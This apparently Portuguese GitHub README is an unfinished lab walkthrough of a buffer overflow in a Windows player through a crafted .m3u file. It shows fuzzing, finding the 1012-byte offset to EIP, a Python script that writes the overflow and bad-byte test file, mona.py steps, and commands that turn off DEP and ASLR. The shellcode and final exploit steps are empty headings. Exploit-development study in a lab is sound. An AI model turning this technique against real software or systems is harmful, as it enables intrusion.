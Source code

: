 # Vuln
buffer overflow.

Todos os testes foram realizados em ambiente próprio virtualizado.
1. Identificar a vulnerabilidade - OK
   
	1.1 - Black Box (fuzzing) - OK
   	1.2 - Reversing - OK

 
2. Verificar quantos bytes são necessários para chegar no RET.

Primeiros passos para depurar a aplicação vulnerável: através do dbg, executamos a aplicação e selecionamos o arquivo m3u modificado com 4000 chars. No entanto, ao executá-lo, ocorre uma exceção, conforme observado na imagem do x32 dbg.

![Screenshot from 2023-08-14 22-40-47](https://github.com/igusil/buff3r_ov3rflow/assets/89313216/d17452de-47f3-4544-b07c-1b91799423c8)

   
	2.1 - https://wiremask.eu/tools/buffer-overflow-pattern-generator
 
 ![Screenshot from 2023-08-14 22-10-21](https://github.com/igusil/buff3r_ov3rflow/assets/89313216/73ca66c2-014c-4731-9e24-222a1e3fccce)

	
	2.2 - Metasploit

![Screenshot from 2023-08-14 22-08-15](https://github.com/igusil/buff3r_ov3rflow/assets/89313216/796abfe1-d62b-4160-83a4-11b7af56e7e3)

O pattern generator do msf foi usado para gerar 2000 bytes como exemplo de que pode ser feito por esta ferramenta:

![Screenshot from 2023-08-14 22-08-36](https://github.com/igusil/buff3r_ov3rflow/assets/89313216/3693beaf-932c-40be-8b10-abe679643fdf)


O resultado a partir do EIP 0x68423768 mostrado na primeira imagem do debugger IDA pro, indica que precisamos de 1012 bytes para atingir o retorno, o mesmo resultado pode ser obtido pelo site buffer overflow pattern generator

![Screenshot from 2023-08-14 22-18-16](https://github.com/igusil/buff3r_ov3rflow/assets/89313216/bd9738eb-d92f-4a6c-88c4-32417da27727)




	
3. Verificar "bad bytes"
. Usei o immunity debugger neste passo:

após realizar a instalação do immunity, realize a copia do arquivo mona.py para o diretorio C:\Program Files (x86)\Immunity Inc\Immunity Debugger\PyCommands
o script python está disponivel para download aqui no repositório.

abra o immunity, rode a aplicação vulneravél usada como exemplo aqui e digite { !mona bytearray } sem chaves, irá gerar um pattern de 00 a ff:

![Screenshot from 2023-08-15 23-20-35](https://github.com/igusil/buff3r_ov3rflow/assets/89313216/961416e2-bfc4-4689-9414-9dbb28b8e5ba)

O codigo em python a seguir foi desenvolvido para gerar um exploit com os bad bytes mostrados no debugger

3.1

lixo = 'A' * 1012
ret = 'AAAA'
badbytes = "\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"

f = open("xpl.m3u", "wb")

f.write(lixo+ret+badbytes)

f.close()


Rodamos o programa vuln com play 2x e abrimos nosso exploit, irá dar exceção e prossiga com Shit + f9
ECX, EBP e EIP será sobreescrito com 41414141,

![Screenshot from 2023-08-19 22-58-35](https://github.com/igusil/buff3r_ov3rflow/assets/89313216/d9abb8ce-36ca-4115-8667-be7dbc14bf8d)


ESP estava em 0018E998, prossiga com o comando

!mona compare -f bytearray.bin -a 0018E998		//endereço entre as tags

![Screenshot from 2023-08-19 23-57-01](https://github.com/igusil/buff3r_ov3rflow/assets/89313216/433f095a-8e8e-4142-a7a5-52e744fd3cb9)

o resultado informa que a corrupção ocorreu após 1 byte

inclusive podemos verificar na tabela que parou de funcionar no 0x00

![Screenshot from 2023-08-20 00-14-35](https://github.com/igusil/buff3r_ov3rflow/assets/89313216/9c46d833-3842-4524-8f27-3de20372e6c7)

execute o comando:

mona! bytearray -cpb '\x00'

para gerar os badbytes sem x00, você pode copiar para o seu codigo python ou apenas deletar \x00 dos badbytes que já estão no seu codigo

![Screenshot from 2023-08-20 00-16-57](https://github.com/igusil/buff3r_ov3rflow/assets/89313216/b9a4692d-d574-480b-90da-befba4a4fa8c)

após retirar o \x00, rode o programa novamente e use no reverse o novo arquivo gerado.

chegou no endereço com erro, rode o comando do mona compare novamente

!mona compare -f bytearray.bin -a < 0018E998 >		//endereço entre as tags

![Screenshot from 2023-08-22 21-23-43](https://github.com/igusil/buff3r_ov3rflow/assets/89313216/4ca4de13-2b15-4e1f-bd92-c2f389245f58)


e assim em diante com os proximos que bytes que forem problemáticos, você os retira do seu exploit.
3.2 


7. Criar shellcode sem os bad bytes

8. Verificar como chamar o shellcode

6.Exploit


Ps.: Desativar o DEP (Data Execution Prevention) e ASLR (Address Space Layout Randomization)

DEP: cli como admin e digite: bdcedit.exe /set {current} nx AlwaysOff

ASLR: abra o regedit e busca [HKLM\System\Current\CurrentControlSet\Control\Session Manager\Memory Management\]
cria um novo valor "DWORD" com nome "MoveImages" com valor 0



